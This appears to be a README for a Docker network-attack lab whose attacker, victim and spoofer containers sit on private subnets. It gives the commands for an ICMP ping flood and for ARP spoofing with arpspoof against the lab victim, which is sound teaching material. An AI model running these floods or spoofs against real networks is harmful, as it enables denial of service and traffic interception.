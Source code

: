 # Authors
Aloysio Winter, Carlo Mantovani, Felipe Elsner

# Notes
This application was developed in Linux, but it should work for different operating systems.
However, the commands within this README were executed primarily within a Linux OS.

# Configuration
The pre-defined IPv4 configuration should work within most locations, but if necessary, the addresses can be changed under the **services** and **network** sections within the docker-compose.yml file, following the already estabilished subnet configuration:
- NW Containers
    - Idle
    - Victim
    - Spoofer
- NW2 Containers
    - Attacker

# Start
```
./run.sh 
```
- OR

```
sudo docker-compose run --build --rm attacker zsh

In a different terminal:

sudo iptables -I DOCKER-ISOLATION-STAGE-2 -o br0 -i br1 -j ACCEPT
sudo iptables -I DOCKER-ISOLATION-STAGE-2 -o br1 -i br0 -j ACCEPT
```
- Lastly, run the socket raw in the local machine, outside the containers:
```
sudo python3 receive.py
```


## Addendum
- Depending on the OS, docker compose might be used as: 
```
docker compose
```
- OR
```
docker-compose
```

# Attack 
## Ping Flooding

- Within the Attacker Container, flood the Victim (172.20.0.3) with ICMP packets:
```
sudo ping -f 172.20.0.3  
```
- This floods the br0 interface with ICMP packets
## ARP Spoofing

Within the Attacker Container:
```
ping 172.20.0.3

```
- Run Victim (172.20.0.3) Container:
```
sudo docker exec -it victim sh
```
- Ping Idle (172.20.0.2) in Victim Container:
```
ping 172.20.0.2
```
- Run Spoofer (172.20.0.4) Container:
```
sudo docker compose run --build --rm spoofer zsh
```

- In Spoofer container:
```
arpspoof -i eth0 -t 172.20.0.3 172.20.0.2
```
- This changes the Arp Cache in Victim (172.20.0.3) so that Idle (172.20.0.2) is associated with the Spoofer's MAC address.

# Clean Containers
```
./down.sh
```
- Or
```
sudo docker-compose down
```


